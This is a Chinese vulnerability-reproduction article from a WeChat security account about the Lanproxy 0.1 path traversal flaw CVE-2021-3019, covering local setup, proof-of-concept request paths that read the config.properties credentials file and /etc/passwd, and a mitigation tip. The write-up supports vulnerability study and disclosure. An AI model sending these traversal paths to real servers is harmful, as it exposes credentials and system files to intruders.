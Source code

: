 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WEgWYrWtbuLsSoUt40Fkbg)

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzLicKwibCOrj4LSdPHyjzIeCKlSvwNBOBxyUO2TxqtBXsZa3lXycRjicD81lr7wpjXkKO37ETn00Sow/640?wx_fmt=png)

**本文由粉丝：判官蜘蛛投稿**  

**漏洞概述：**

Lanproxy 是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持 tcp 流量转发，可支持任何 tcp 上层协议（访问内网网站、本地支付接口调试、ssh 访问、远程桌面等等）本次 Lanproxy 路径遍历漏洞 (CVE-2021-3019) 通过../ 绕过读取任意文件。该漏洞允许目录遍历读取 /../conf/config.properties 来获取到内部网连接的凭据。

**影响版本：**

```
lanproxy 0.1
```

**环境搭建：**

**1. 下载 proxy-server-0.1.zip**

**下载地址：**

```
https://file.nioee.com/d/2e81550ebdbd416c933f/
```

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzKUiaZgzodBDrhGasCQe2r2iaRdMBPIVTKRNSLUmGoHTIuvZ8ZEtSVAFib0bX10z1tia77vmO5JzmZOQ/640?wx_fmt=png)

**2. 解压安装之后移动文件**  

```
mv proxy-server-0.1 /usr/local/
```

**直接启动服务**

```
cd /usr/local/proxy-server-0.1/bin
chmod +x startup.sh
./startup.sh
```

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzKUiaZgzodBDrhGasCQe2r2MCn96ib1MVHmXa1Sucr1zIxxM4E7g0xyMcUCPf28xHN5TJK3RHic4z3w/640?wx_fmt=png)

**3. 访问 http:///ip:8090 登录界面窗口**  

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzKUiaZgzodBDrhGasCQe2r2WxNwqWmX6B3y4EhswXIeeeKcHzhSlibrJWncU20saHgwaap6Yk8f8kg/640?wx_fmt=png)

**4. 漏洞利用**

**Poc**

```
/../conf/config.properties
```

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzKUiaZgzodBDrhGasCQe2r2SQBbLvxpqKMzIxOvRcSL7JONVEAK5VVcicuWP2AMzHvJTAfFb9hibNAQ/640?wx_fmt=png)

**5. 读取 passwd**  

```
/../../../../../../../../../etc/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzKUiaZgzodBDrhGasCQe2r2axibdft3qPxkic8cUbEuMOYUVoGeCzXAkULFlYspBlMvWVr89ef8nVcg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/3heAguJrdPzKUiaZgzodBDrhGasCQe2r204CrgHCe5K1Innm6TVJ2o7A0p0xwz4z8K7dO0OzAcHuQPh277skHlQ/640?wx_fmt=png)

**成功读取**  

**6、修复建议**

**lanproxy 尚未针对该漏洞发布安全更新**

**建议禁止将 lanproxy 管理面板对外部开放**

**结束语：**

**本次复现是本地搭建模拟攻击行为，本文章仅用于交流学习，请勿使用该漏洞进行违法活动。**

**【来稿说明】:**

**本公众号宗旨是一个公益性的平台，属于大家锻炼的平台，不能只展示我个人的，所以欢迎有才华的人士来稿。**

**大家写文档投稿，也需要占用一定的个人时间，且现在的生活节奏较快，能乐于分享，牺牲自己的宝贵时间，真的很难得。所以，小编决定根据个人经济情况及投稿文章质量，每次投稿，打赏的稿费定在** **5 元 - 50 元****之间，请有兴趣者，不要介意钱太少，或者后续也可以采用赠送书籍的形式。**

**来稿邮箱：****942511321@qq.com**

**来稿声明：须自己本人原创，否则后果自行承担。未在其他平台发布过。**

END

  

```
猜您喜欢
往期精选▼

SQL注入详解，看这篇就够了


“来骗、来偷袭”攻击我这脆弱的“老”系统，不讲“武”德！


综合开源靶场搭建


SQL注入及如何解决


安全应急之常见命令篇（Linux&Windows）





更多精选资源尽在星球，欢迎加入交流
```
